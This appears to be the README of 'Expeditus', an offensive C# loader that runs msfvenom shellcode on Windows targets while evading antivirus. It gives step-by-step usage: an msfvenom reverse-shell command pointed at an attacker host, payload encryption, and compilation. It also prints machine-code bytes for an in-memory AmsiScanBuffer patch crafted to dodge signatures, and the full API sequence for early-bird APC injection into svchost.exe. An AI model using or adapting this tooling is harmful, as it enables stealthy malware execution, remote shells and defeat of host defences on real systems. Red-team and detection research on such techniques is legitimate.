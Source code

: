 
# Expeditus

Expeditus is a C# loader/dropper that executes shellcode (such as that generated by msfvenom) on a target Windows system. It combines several offensive techniques in order to attempt to do this with some level of stealth.

* Encryption of shellcode before compilation of loader to obfuscate obvious AV signatures in the assembly (see [MITRE ATT&CK ID: T1027](https://attack.mitre.org/techniques/T1027/))
* Patching of amsi.dll for evasion of host-based defences at runtime (see [MITRE ATT&CK ID: T1562.001](https://attack.mitre.org/techniques/T1562/001/))
* Shellcode injection into svchost.exe via the Asynchronous Procedure Call (APC) queue (see [MITRE ATT&CK ID: T1055.004](https://attack.mitre.org/techniques/T1055/004/))

Before performing the process injection, the loader first patches amsi.dll in memory so that the AmsiScanBuffer() function always returns E_INVALIDARG and the final scan result is AMSI_RESULT_CLEAN. This should allow the process injection to proceed without as much scrutiny from AV, although there is also a fair risk that kernel32 is hooked and so our Windows API calls can be examined. Unhooking of kernel32 is a planned improvement for future work.

The loader then uses the 'early bird' variation of the APC queue code injection technique. A new svchost.exe process is created in a suspended state. A new buffer is created inside it and the decrypted shellcode is copied into this. A new entry is added to the main thread's APC queue with a pointer to the shellcode buffer. The main thread is then resumed, the Expeditus loader process exits, and the independent svchost.exe process executes the user's shellcode.

## Usage

First of all the user needs to write or otherwise generate some suitable shellcode that they would like to run on the target system. For example:

	`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f powershell`

The above command gives output of the following form:

	`[Byte[]] $buf = 0xfc,0x48,0x83...`

This shellcode should then be copied and pasted into the payload-encrypt.ps1 script which can then be executed. The output should look like this:

	`Encrypted payload to paste into strEncryptedPayload variable in expeditus.cs: lCfnjZWA....WsA==`

The output is the shellcode after being XOR encrypted and then Base64 encoded. It should be copied and pasted into the expeditus.cs file in the strEncryptedPayload variable which you will find around line 119.

Finally, the expeditus.cs loader can now be compiled ready to use:

	`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:exe /out:expeditus.exe expeditus.cs`

Running expeditus.exe on the target should result in a new svchost.exe process appearing. The expeditus.exe process will termainate immediately and the (far less suspicious) svchost.exe process will remain until the shellcode exits (for example, when you terminate your reverse shell) at which point the svchost.exe process also terminates.

## Technical Details

### In-memory patching of amsi.dll

See the [memory patching AMSI bypass](https://rastamouse.me/memory-patching-amsi-bypass/) blog post by Rasta Mouse for a detailed explanation of this technique.

As far as implementing it in our loader goes, we just need to make sure that our patch of the AmsiScanBuffer() function somehow places 0x80070057 (E_INVALIDARG) into the EAX register and then returns. We have not used the simplest and most obvious method of achieving this (mov eax, 0x80070057; ret) that is used in the blog post. This is because many AV products now have a signature to match those specific bytes. Instead we use the following code to get the same result while bypassing the existing AV signatures.
			
	`and eax,0x00000000`
	`add eax,0x90940031`
	`sub eax,0x108CFFDA`
	`ret`
			
We place zero into EAX by performing an AND of its current (irrelevant) value with 0x00000000. We then add 0x90940031 to it and subtract 0x108CFFDA which gets us to our required value of 0x80070057.

Putting those instructions through an assembler gives us the machine code for our patch.

	`byte[] amsiScanBufferPatch = {0x83,0xE0,0x00,0x05,0x31,0x00,0x94,0x90,0x2D,0xDA,0xFF,0x8C,0x10,0xC3};`

The rest of the Amsipatch class is self-explanatory. We simply look up the address of the AmsiScanBuffer() function and overwrite the first few bytes of it with our patch. 

### Early bird APC Queue code injection

The shellcode is stored inside a local variable in expeditus.cs in encrypted form to at least avoid detection of the shellcode in the static .NET assembly. When it is executed, this is decrypted back to the raw shellcode in a buffer in memory after the amsi.dll patch has been applied.

We then make several API calls to kernel32 in order to perform our chosen process injection technique.

* CreateProcess is used to create a new svchost.exe process in a suspended state
* VirtualAllocEx is used to allocate memory to a new readable and writeable (PAGE_READWRITE) buffer inside the svchost.exe process the same size as the shellcode
* WriteProcessMemory is used to copy the contents of the shellcode buffer in the expeditus.exe process to the new buffer in the svchost.exe process
* VirtualProtectEx is used to change the new buffer's memory protection status to readable and executable (PAGE_EXECUTE_READ)
* OpenThread is used to get a pointer to the main thread of the svchost.exe process
* QueueUserAPC is used to add a pointer to the shellcode buffer to the main thread's APC queue
* ResumeThread is used to resume the main thread

Once this simple procedure has completed the expeditus.exe process terminates leaving behind a legitimate svchost.exe process with our shellcode queued to it's main thread.
		
			

